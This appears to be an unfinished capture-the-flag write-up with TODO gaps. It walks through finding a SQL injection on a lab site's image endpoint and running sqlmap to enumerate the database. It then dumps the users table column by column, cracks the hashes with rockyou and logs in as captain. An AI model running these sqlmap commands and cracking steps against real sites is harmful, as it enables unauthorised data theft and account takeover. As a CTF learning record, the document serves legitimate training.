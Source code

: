 inspecting the page there are

/system/login endpoint
suspicous GET /image?type=data

seems to be a vulnerable endpoint

let's feed it to sqlmap

sqlmap -u "http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=1"

> "GET parameter 'type' is vulnerable <todo pic>

it's MySQL
it say boolean-based blind, error-based, time-based blind 


let's enumerate tables for current database:

sqlmap -u "http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=1" --current-db 
> navigation


sqlmap -u "http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=1" -D navigation  --tables
<todo pic>

So there are 3 tables

I tried to fetch DETAIL(S) column from targets but apparently there isn't any and I couldn't enumerate columns of the tables.

So I tried dumping the `users` and see if I can login



These don't work, no results, why?
sqlmap -u "http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=1" -D navigation -T users --columns
sqlmap -u "http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=1" -D navigation -T users --dump


I tried some by hand
id, username, password, active
sqlmap -u "http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=1" -D navigation -T users -C id --dump
1, 2, 3
sqlmap -u "http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=1" -D navigation -T users -C username --dump
captain, engeneer, officer
sqlmap -u "http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=1" -D navigation -T users -C active --dump
0, 1, 1
sqlmap -u "http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=1" -D navigation -T users -C rank --dump
0, 1, 1

I also couldn't query more than one column at once so I didn't know which username has which values but given there are only 3, it's not so bad

dumping `password` also offered cracking the hash using the rockyou wordlist
sqlmap -u "http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=1" -D navigation -T users -C password --dump
<TODO>
->

Trying combinations:
engineer/123456789 works but that's the deactivated account
captain/$captainamerica$ loggin as that and clicking on Details for Target #4:
<todo>





TODO the errors
